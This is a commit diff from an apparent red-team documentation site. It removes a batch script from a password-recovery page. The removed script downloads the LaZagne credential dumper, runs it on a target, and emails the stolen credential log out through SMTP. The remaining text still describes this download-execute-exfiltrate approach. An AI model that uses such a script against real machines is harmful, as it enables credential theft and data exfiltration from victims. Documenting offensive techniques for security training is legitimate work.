

Before and after one commit to tymyrddin/red-basic, a Sphinx documentation site: the page built from source/docs/malware/Password-recovery.md, in a window 1280 px wide and 1244 px high. Shown: the whole window at 87% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
payloads

````diff
--- a/source/docs/malware/Password-recovery.md
+++ b/source/docs/malware/Password-recovery.md
@@ -18,28 +18,6 @@
 * LazaGna needs to be executed on target computer and displays logs on screen or stores them in a local file.
 * Use a file that downloads LazAgne, execute it and send an email with the result back.
 
-```text
-@echo off
-
-set downloadURL=https://<domain>/evil-files/laZagne.exe
-set email=email@gmail.com
-set password=PASSWORD
-
-set exeFile=%TEMP%\proc.exe
-set logFile=%TEMP%\proclog.txt
-set arguments=all
-
-
-powershell (new-object System.Net.WebClient).DownloadFile('%downloadURL%','%exeFile%');
-%exeFile% %arguments% > %logFile%
-
-del %exeFile%
-
-powershell $SMTPServer = 'smtp.gmail.com';$SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587);$SMTPInfo.EnableSsl = $true;$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('%email%', '%password%');$ReportEmail = New-Object System.Net.Mail.MailMessage;$ReportEmail.From = '%email%';$ReportEmail.To.Add('%email%');$ReportEmail.Subject = 'Lazagne Report';$ReportEmail.Body = 'Lazagne report in the attachments.';$ReportEmail.Attachments.Add('%logFile%');$SMTPInfo.Send($ReportEmail);
-
-del %logFile%
-```
-
 ## Tools
 
 * [LaZagnE](https://github.com/0x0ff537/LaZagne/)
````
